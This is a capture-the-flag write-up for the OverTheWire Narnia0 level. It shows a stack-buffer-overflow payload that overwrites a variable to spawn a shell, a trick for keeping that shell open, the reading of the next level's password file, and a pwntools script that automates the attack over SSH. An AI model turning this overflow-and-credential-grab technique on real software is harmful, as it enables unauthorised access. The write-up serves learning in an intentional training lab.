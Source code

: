 
#Narnia0

narnia.labs.overthewire.org

**Username:** narnia0
**Password:** narnia0
**Description:**  

This wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.  

##Write-up

Before we do anything, let's go ahead and run the program and see what it does.

```
# ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: AAAAAAAA  
buf: AAAAAAAA  
val: 0x41414141  
WAY OFF!!!!  
```

Ok, it basically just tell's us that we need to correct a value and asks for input.  After accepting the input it looks like it just tells us the value that we submitted and the value of the area we are supposed to overwrite.

Let's go ahead and take a peek at the source:

```C
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef)
		system("/bin/sh");
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}
```

Alright, we can see the declaration of the buffer ```char buf[20];``` and where the input is read in ```scanf("%24s",&buf);```.  It also looks like if we get our values correct that we will be rewarded quite generously with a shell.  How nice! Let's play around with this new information a bit.  If the buffer was only supposed to be 20 characters, let's see what happens when our input is 21 characters, but since it looks like the buffer we want to overwrite has ```0x41414141``` already in it we are going to have to use another letter besides ```A``` as our input. We'll settle for ```R```.  Just as a quick side note, rather than inputting the values by hand each time let's utilize python to make life easier and just pipe in the input.

```
# python -c 'print "R"*21' | ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRR  
val: 0x41410052  
WAY OFF!!!!  
```

Hmm, it looks like we overwrote one character with the null value at the end of the input overwriting a second.  It also looks like it started overwriting from the back, so we'll need to remember to take the endianness into account for our final input.  Let's try overwriting all 4 characters of the buffer.

```
# python -c 'print "R"*24' | ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRRRRR  
val: 0x52525252  
WAY OFF!!!!  
```

Perfect, we overwrote the whole buffer with our input.  Now, lets start trying to fit ```0xdeadbeef``` in there.  Since the hex values for ```0xdeadbeef``` don't match up to ascii characters we need a way to insert them as input.  We are already using python for the repetitive input, let's just back off our number of ```R``` and tag on hex values to the end of that string and see what it does.

```
# python -c 'print "R"*20+"\xde\xad\xbe\xef"' | ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRޭ�  
val: 0xefbeadde  
WAY OFF!!!!  
```
Our buffer shows that we inserted ```RRRRRRRRRRRRRRRRRRRRޭ�``` which we obviously wouldn't have been able to type in.  However, we forget about the little endian part and our values aren't in the correct order.  Let's fix that.

```
# python -c 'print "R"*20+"\xef\xbe\xad\xde"' | ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRﾭ  
val: 0xdeadbeef  
```

Well, we didn't get the ```WAY OFF!!!``` message, but no shell. I actually spent a good bit of time at this stage, but learned a few key concepts in doing so.  The shell is being launched, but the problem is that it's exiting before we have a chance to run anything.  What we need to do is use the subshell syntax in bash and try to group commands together.  Let's try that with a basic command.
 
```
narnia0@melinda:/narnia$ (python -c 'print "A"*20+"\xef\xbe\xad\xde"';ls) | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
/bin/sh: 1: narnia0: not found
/bin/sh: 2: narnia0.c: not found
/bin/sh: 3: narnia1: not found
/bin/sh: 4: narnia1.c: not found
/bin/sh: 5: narnia2: not found
/bin/sh: 6: narnia2.c: not found
/bin/sh: 7: narnia3: not found
/bin/sh: 8: narnia3.c: not found
/bin/sh: 9: narnia4: not found
/bin/sh: 10: narnia4.c: not found
/bin/sh: 11: narnia5: not found
/bin/sh: 12: narnia5.c: not found
/bin/sh: 13: narnia6: not found
/bin/sh: 14: narnia6.c: not found
/bin/sh: 15: narnia7: not found
/bin/sh: 16: narnia7.c: not found
/bin/sh: 17: narnia8: not found
/bin/sh: 18: narnia8.c: not found
```

Now this looks a little better.  It looks like the output from ```ls``` was passed into the /bin/sh from narnia0. Here we can utilize the ```cat``` command with no parameters which will basically leave the input open for us to pass values to /bin/sh.

```
narnia0@melinda:/narnia$ (python -c 'print "A"*20+"\xef\xbe\xad\xde"';cat) | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
whoami
narnia1
pwd 
/narnia
```

Finally. The ```cat``` command left the input open for us and everything we passed was executed by /bin/sh as a separate command.  Now we just need to find where the flag may be.

```
narnia0@melinda:/narnia$ find / -name 'narnia*' -print 2>/dev/null
/games/narnia
/games/narnia/narnia8
/games/narnia/narnia6.c
/games/narnia/narnia6
/games/narnia/narnia3
/games/narnia/narnia7
/games/narnia/narnia4
/games/narnia/narnia2.c
/games/narnia/narnia3.c
/games/narnia/narnia1
/games/narnia/narnia5
/games/narnia/narnia4.c
/games/narnia/narnia5.c
/games/narnia/narnia0
/games/narnia/narnia2
/games/narnia/narnia1.c
/games/narnia/narnia7.c
/games/narnia/narnia8.c
/games/narnia/narnia0.c
/etc/narnia_pass
/etc/narnia_pass/narnia3
/etc/narnia_pass/narnia7
/etc/narnia_pass/narnia5
/etc/narnia_pass/narnia1
/etc/narnia_pass/narnia8
/etc/narnia_pass/narnia6
/etc/narnia_pass/narnia9
/etc/narnia_pass/narnia0
/etc/narnia_pass/narnia2
/etc/narnia_pass/narnia4
/narnia
/home/narnia3
/home/narnia7
/home/narnia5
/home/narnia1
/home/narnia8
/home/narnia6
/home/narnia9
/home/narnia0
/home/narnia2
/home/narnia4
```

The ```find / -name 'narnia*'``` is a fairly basic command.  The ```-print 2>/dev/null``` is basically just there to eliminate any errors that may clutter the output.  Out of our results the most promising is the ```/etc/narnia_pass``` directory that looks like there is a password document for each challenge.  Since we already have the password for narnia0, let's try to grab the narnia1 password.

```
narnia0@melinda:/narnia$ cat /etc/narnia_pass/narnia1
cat: /etc/narnia_pass/narnia1: Permission denied
narnia0@melinda:/narnia$ ls -l /etc/narnia_pass/narnia1
-r-------- 1 narnia1 narnia1 11 Nov 14  2014 /etc/narnia_pass/narnia1
narnia0@melinda:/narnia$ ls -l narnia0
-r-sr-x--- 1 narnia1 narnia0 7452 Nov 14  2014 narnia0
```

We can't just ```cat``` the narnia1 password because we don't have permissions but it looks like the narnia0 challege runs under narnia1.  Let's use our subshell trick and try to read the password.

```
narnia0@melinda:/narnia$ (python -c 'print "A"*20+"\xef\xbe\xad\xde"';cat) | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
cat /etc/narnia_pass/narnia1
**********
```

There we go. Finally got it. On to narnia1.

As a followup, I wanted to work my way back through these challenges implementing the solutions with the [pwntools](http://pwntools.com) python module in an effort to sharpen my python skills and learn how to utilize this module for future CTF fun.  Below is my solution:

```python
from pwn import *

s = ssh(user='narnia0', host='narnia.labs.overthewire.org', password='narnia0')
sh = s.run('/narnia/narnia0')
sh.sendline('A'*20 + p32(0xdeadbeef))
sh.sendline('cat /etc/narnia_pass/narnia1')
log.info('Flag: '+sh.recvline().split('\n')[0])
```
